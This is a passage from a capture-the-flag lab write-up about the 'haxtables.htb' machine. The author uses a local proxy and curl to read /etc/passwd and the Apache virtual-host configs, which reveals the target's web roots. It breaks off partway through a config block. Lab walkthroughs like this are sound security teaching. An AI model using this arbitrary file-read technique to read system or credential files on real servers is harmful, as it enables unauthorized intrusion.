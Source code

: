 
When I run it, it listens on port 5000 such that I can do things like
this in another terminal:



    oxdf@hacky$ curl http://127.0.0.1:5000/etc/hostname
    encoding
    oxdf@hacky$ curl http://127.0.0.1:5000/etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin          
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...



### Filesystem Enumeration

#### Locate Web Roots

With the proxy in place, I'll start reading files from the filesystem.
I'll see if I can pull the config for Apache, which is by default at
`/etc/apache2/sites-enabled/000-default.conf`. It defines three virtual
hosts.

The first is the default, with a web root at `/var/www.md`:



    <VirtualHost *:80>
            ServerName haxtables.htb
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www.md
                                             
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined

    </VirtualHost>  



The second is for the API host, with a root at `/var/www/api`:



    <VirtualHost *:80>
            ServerName api.haxtables.htb
            ServerAdmin webmaster@localhost
            DocumentRoot /var/www/api
            ErrorLog ${APACHE_LOG_DIR}/error.log
            CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>



The third is for image, which is rooted at `/var/www/image`:



    <VirtualHost *:80>
            ServerName image.haxtables.htb
            ServerAdmin webmaster@localhost
                             